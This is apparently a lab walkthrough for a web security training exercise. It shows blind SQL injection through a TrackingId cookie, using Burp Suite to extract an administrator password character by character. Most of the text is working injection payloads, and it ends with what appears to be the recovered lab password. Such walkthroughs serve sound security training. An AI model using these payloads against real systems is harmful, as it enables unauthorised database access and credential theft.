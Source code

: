 ### Exploiting blind SQL injection by triggering conditional responses

1-  Visit the front page of the shop, and use Burp Suite to intercept and modify the request containing the TrackingId cookie. For simplicity, let's say the original value of the cookie is TrackingId=xyz.

2 - Modify the TrackingId cookie, changing it to:
```TrackingId=xyz' AND '1'='1```

Verify that the "Welcome back" message appears in the response.

3 - Now change it to:
```TrackingId=xyz' AND '1'='2```

Verify that the "Welcome back" message does not appear in the response. This demonstrates how you can test a single boolean condition and infer the result.

4 - Now change it to:
```TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a```

Verify that the condition is true, confirming that there is a table called users.

5 - Now change it to:

```TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a``` 

Verify that the condition is true, confirming that there is a user called administrator.

6 - The next step is to determine how many characters are in the password of the administrator user. To do this, change the value to:

```TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a```

 This condition should be true, confirming that the password is greater than 1 character in length.

7 - Send a series of follow-up values to test different password lengths. Send:

```TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>2)='a```

Then send:
```TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>3)='a```

And so on. You can do this manually using Burp Repeater, since the length is likely to be short. When the condition stops being true (i.e. when the "Welcome back" message disappears), you have determined the length of the password, which is in fact 20 characters long.

8 - After determining the length of the password, the next step is to test the character at each position to determine its value. This involves a much larger number of requests, so you need to use Burp Intruder. Send the request you are working on to Burp Intruder, using the context menu.

9 - In the Positions tab of Burp Intruder, change the value of the cookie to:
```TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a```

 This uses the SUBSTRING() function to extract a single character from the password, and test it against a specific value. Our attack will cycle through each position and possible value, testing each one in turn.

10 - Place payload position markers around the final a character in the cookie value. To do this, select just the a, and click the "Add §" button. You should then see the following as the cookie value (note the payload position markers):

```TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='§a§```

11 - To test the character at each position, you'll need to send suitable payloads in the payload position that you've defined. You can assume that the password contains only lowercase alphanumeric characters. Go to the Payloads tab, check that "Simple list" is selected, and under Payload settings add the payloads in the range a - z and 0 - 9. You can select these easily using the "Add from list" drop-down.

12 - To be able to tell when the correct character was submitted, you'll need to grep each response for the expression "Welcome back". To do this, go to the Settings tab, and the "Grep - Match" section. Clear any existing entries in the list, and then add the value "Welcome back". 

13 -  Launch the attack by clicking the "Start attack" button or selecting "Start attack" from the Intruder menu.

14 - Review the attack results to find the value of the character at the first position. You should see a column in the results called "Welcome back". One of the rows should have a tick in this column. The payload showing for that row is the value of the character at the first position.

15 - Now, you simply need to re-run the attack for each of the other character positions in the password, to determine their value. To do this, go back to the main Burp window, and the Positions tab of Burp Intruder, and change the specified offset from 1 to 2. You should then see the following as the cookie value:

```TrackingId=xyz' AND (SELECT SUBSTRING(password,2,1) FROM users WHERE username='administrator')='a```

16 - Launch the modified attack, review the results, and note the character at the second offset.

17 - Continue this process testing offset 3, 4, and so on, until you have the whole password.
18 - In the browser, click "My account" to open the login page. Use the password to log in as the administrator user. 

1234567891011121314151617181920
0boibzaol3g70po1l0t8
